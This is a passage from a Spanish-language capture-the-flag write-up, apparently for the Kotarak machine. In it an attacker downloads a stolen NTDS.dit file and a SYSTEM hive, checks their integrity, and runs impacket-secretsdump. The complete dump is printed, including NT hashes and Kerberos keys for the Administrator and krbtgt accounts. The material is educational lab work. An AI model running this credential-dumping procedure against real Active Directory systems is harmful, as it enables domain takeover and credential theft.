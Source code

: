 ```bash
2021-10-19 15:53:13 (3.69 MB/s) - «20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin» guardado [12189696/12189696]

❯ mv 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit ntds.dit
❯ mv 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin system.bin
```

Antes de cualquier cosa, vamos a validar la integridad de la información:

```bash
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ md5sum *
f6849066d0e179ca24078906f5c5ee01  20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
f41191f7536a19abefa557c419bf5281  20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$
```

```bash
❯ md5sum *
f6849066d0e179ca24078906f5c5ee01  ntds.dit
f41191f7536a19abefa557c419bf5281  system.bin
```

Y ahora si, con la herramienta `secretsdump` vamos a tratar de obtener la información de dichos archivos:

```bash
❯ impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation     
                                                                
[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                    
[*] Searching for pekList, be patient           
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff                     
[*] Reading and decrypting hashes from ntds.dit                                                                                  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::    
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::  
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487::: 
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::                      
[*] Kerberos keys from ntds.dit                                                                                                  
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274                                   
Administrator:des-cbc-md5:75375eda54757c2f                                                                                       
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5                                                                                    
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd     
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046                                                                                              
```